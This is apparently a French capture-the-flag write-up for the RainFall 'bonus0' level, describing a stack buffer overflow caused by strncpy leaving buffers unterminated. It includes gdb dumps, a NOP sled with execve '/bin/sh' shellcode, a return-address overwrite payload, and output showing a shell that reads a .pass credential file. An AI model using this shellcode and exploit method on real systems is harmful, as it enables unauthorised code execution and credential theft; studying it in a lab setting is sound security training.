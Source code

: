 #### Etape 1 : Décompilation 
Nous trouvons un binaire bonus0 dans le répertoire lorsque nous l'analysons nous voyons que le binaire possède trois fonctions :
p(), pp() et main(). (voir souce.c).
Le binaire ne necessite pas d'argument pour être lancé. on recoit le prompt suivant :

```bash
bonus0@RainFall:~$ ./bonus0
 -
AAAAA
 -
BBBBB
AAAAA BBBBB
```
on remarque dans la fonction pp que les deux chaines on un buffer de 20 bytes.
lorsque nous essayons de faire un overflow sur les 2 chaines, nous obtenons un segfault.

```bash
bonus0@RainFall:~$ ./bonus0
 -
AAAAAAAAAAAAAAAAAAAAAAAAAAAA
 -
BBBBBBBBBBBBBBBBBBBBBBBBBBBBB
AAAAAAAAAAAAAAAAAAAABBBBBBBBBBBBBBBBBBBB�� BBBBBBBBBBBBBBBBBBBB��
Segmentation fault (core dumped)
bonus0@RainFall:~$
```


#### Etape 2 : Objectif

Nous decidons de overflow afin d'y inclure un ShellCode.

#### Etape 3 : Faiblesses


On voit plusieurs faiblesse avec le binaire, la première est que les deux buffers sont alignés en mémoire. on voit une fonction p() qui utilise un read et  un strncpy pour copier les 20 premiers caracteres si possible mais comme dit le man :
```bash
La fonction strncpy() est identique, sauf qu’au plus n  octets  de  src
       sont  copiés.  Attention :  s’il  n’y a pas de caractère nul dans les n
       premiers octets de src, la chaîne résultante dans dest ne disposera pas
       de caractère nul final.
```
Donc le buffer final sera remplis de 20 chars + 20 char + 1 espaces + 20 chars comme vu plus haut.


#### Etape 4 : Plan d'action

Premiere etape etait de trouver l'offset
J'ai généré un buffer grâce à : https://wiremask.eu/tools/buffer-overflow-pattern-generator
En éxécutant le programme depuis gdb avec le buffer en question j'obtiens une adresse qui correspond au dernier caractère écrit avant le SegFault. Ce qui me permet de les identifier et obtenir la valeur de 9.

Nous allons remplir le grand buffer de read dans la fonction p() avec des NOPs et un shellcode avec un padding supperieur a 61 bytes pour atteindre l'adresse de retour de la fonction p().

```bash
bonus0@RainFall:~$ python -c "print '\x90' * 200 +'\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80'" > /tmp/hugo

[...]
(gdb) b main
Breakpoint 1 at 0x80485a7
(gdb) b read
Breakpoint 2 at 0xb7f0a1f0
(gdb) run < /tmp/hugo

[...]
(gdb) disass p
Dump of assembler code for function p:
   0x080484b4 <+0>:	push   %ebp
   0x080484b5 <+1>:	mov    %esp,%ebp
   0x080484b7 <+3>:	sub    $0x1018,%esp
   0x080484bd <+9>:	mov    0xc(%ebp),%eax
   0x080484c0 <+12>:	mov    %eax,(%esp)
   0x080484c3 <+15>:	call   0x80483b0 <puts@plt>
   0x080484c8 <+20>:	movl   $0x1000,0x8(%esp)
   0x080484d0 <+28>:	lea    -0x1008(%ebp),%eax
   0x080484d6 <+34>:	mov    %eax,0x4(%esp)
   0x080484da <+38>:	movl   $0x0,(%esp)
   0x080484e1 <+45>:	call   0x8048380 <read@plt>
   0x080484e6 <+50>:	movl   $0xa,0x4(%esp)
   0x080484ee <+58>:	lea    -0x1008(%ebp),%eax
   0x080484f4 <+64>:	mov    %eax,(%esp)
   0x080484f7 <+67>:	call   0x80483d0 <strchr@plt>
   0x080484fc <+72>:	movb   $0x0,(%eax)
   0x080484ff <+75>:	lea    -0x1008(%ebp),%eax
   0x08048505 <+81>:	movl   $0x14,0x8(%esp)
   0x0804850d <+89>:	mov    %eax,0x4(%esp)
   0x08048511 <+93>:	mov    0x8(%ebp),%eax
   0x08048514 <+96>:	mov    %eax,(%esp)
   0x08048517 <+99>:	call   0x80483f0 <strncpy@plt>
   0x0804851c <+104>:	leave
   0x0804851d <+105>:	ret
End of assembler dump.

[...]

(gdb) x/100x $ebp-0x1008
0xbfffe650:	0x90909090	0x90909090	0x90909090	0x90909090
0xbfffe660:	0x90909090	0x90909090	0x90909090	0x90909090
0xbfffe670:	0x90909090	0x90909090	0x90909090	0x90909090
0xbfffe680:	0x90909090	0x90909090	0x90909090	0x90909090
0xbfffe690:	0x90909090	0x90909090	0x90909090	0x90909090
0xbfffe6a0:	0x90909090	0x90909090	0x90909090	0x90909090
0xbfffe6b0:	0x90909090	0x90909090	0x90909090	0x90909090
0xbfffe6c0:	0x90909090	0x90909090	0x90909090	0x90909090
0xbfffe6d0:	0x90909090	0x90909090	0x90909090	0x90909090
0xbfffe6e0:	0x90909090	0x90909090	0x90909090	0x90909090
0xbfffe6f0:	0x90909090	0x90909090	0x90909090	0x90909090
0xbfffe700:	0x90909090	0x90909090	0x90909090	0x90909090
0xbfffe710:	0x90909090	0x90909090	0x99580b6a	0x2f2f6852
0xbfffe720:	0x2f686873	0x896e6962	0xcdc931e3	0x00000080
0xbfffe730:	0x00000000	0x00000000	0x00000000	0x00000000
0xbfffe740:	0x00000000	0x00000000	0x00000000	0x00000000
0xbfffe750:	0x00000000	0x00000000	0x00000000	0x00000000
0xbfffe760:	0x00000000	0x00000000	0x00000000	0x00000000
0xbfffe770:	0x00000000	0x00000000	0x00000000	0x00000000
0xbfffe780:	0x00000000	0x00000000	0x00000000	0x00000000
0xbfffe790:	0x00000000	0x00000000	0x00000000	0x00000000
0xbfffe7a0:	0x00000000	0x00000000	0x00000000	0x00000000
0xbfffe7b0:	0x00000000	0x00000000	0x00000000	0x00000000
0xbfffe7c0:	0x00000000	0x00000000	0x00000000	0x00000000
0xbfffe7d0:	0x00000000	0x00000000	0x00000000	0x00000000

```

On voit que le buffer est bien remplis de NOPs et de notre shellcode.

Ensuite avec l'offset  trouver au dessus, on va ecrire l'adresse de eip par une adresse aleatoire du NOPsled superieur au 61 bytes vu au dessus.

Nous choisissons l'adresse suivante : 0xbfffe6c0

```bash
bonus0@RainFall:~$ python -c "print 'A' * 9 +'\xc0\xe6\xff\xbf' + 'B' * 7" > /tmp/hugo1
```
Attention a bien mettre l'adresse en little endian et ne pas depasser l'adresse dans le NOPsled (ici avec B) pour ne pas ecraser le shellcode.

# Etape 5 : Execution

```bash
bonus0@RainFall:~$ python -c "print '\x90' * 500 +'\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80'" > /tmp/hugo
bonus0@RainFall:~$  python -c "print 'A' * 9 +'\xc0\xe6\xff\xbf' + 'B' * 7" > /tmp/hugo1
bonus0@RainFall:~$ (cat /tmp/hugo ; cat /tmp/hugo1 -) | ./bonus0
 -
 -
��������������������AAAAAAAAA����BBBBBBB�� AAAAAAAAA����BBBBBBB��
whoami
bonus1

cat /home/user/bonus1/.pass
cd1f77a585965341c37a1774a1d1686326e1fc53aaa5459c840409d4d06523c9

```